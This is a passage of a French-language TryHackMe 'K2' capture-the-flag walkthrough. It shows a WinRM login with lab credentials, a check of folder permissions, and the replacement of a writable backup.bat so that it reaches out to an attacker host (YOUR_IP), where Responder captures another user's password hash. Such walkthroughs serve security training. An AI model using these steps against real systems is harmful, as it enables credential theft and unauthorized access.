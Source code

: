 ![JSMITH valid credentials](/images/THM-K2/JSMITH_valid_creds.png)

Nous trouvons les identifiants valides : `j.smith:vz0q$i8b4c`. (Il s'agit du mot de passe administrateur de la machine Middle Camp).

### Accès initial (shell en tant que j.smith)

Nous nous connectons avec evil-winrm en tant que `j.smith` mais le drapeau utilisateur n'est pas sur ce compte. Aucun des différents répertoires de cet utilisateur ne contient des informations intéressantes.

```
evil-winrm -i k2.thm -u j.smith -p "vz0q$i8b4c"
```

![JSMITH login](/images/THM-K2/k2_Summit_JSMITH_login.png)

Dans `C:\Scripts` nous trouvons un fichier appelé `backup.bat`. Il exécute la commande suivante

```
copy C:\Users\o.armstrong\Desktop\notes.txt C:\Users\o.armstrong\Documents\backup_notes.txt
```

![Bat file content](/images/THM-K2/bat_file.png)

En vérifiant les permissions sur le fichier et son répertoire parent, nous découvrons que `j.smith`, l'utilisateur que nous contrôlons actuellement, a le contrôle total sur `C:/Scripts`.

```
Get-Acl -Path "C:\Scripts\backup.bat"

Get-Acl -Path "C:\Scripts"
```

![File permissions](/images/THM-K2/file_permissions.png)

Nous pouvons exploiter cette permission et obtenir le hash de `o.armstrong`.

1. Lancez Responder pour capturer le hash

```
sudo responder -I tun0
```

2. Supprimez le fichier `backup.bat` existant et créez-en un autre du même nom avec un contenu différent

```
rm backup.bat

Set-Content -Path "C:\Scripts\backup.bat" -Value 'copy \\YOUR_IP\share\notes.txt C:\Users\o.armstrong\Documents\backup_notes.txt'
```

![Malicious bat file](/images/THM-K2/backup_file_replace.png)

Après un peu de temps, nous obtenons le hash sur Responder.
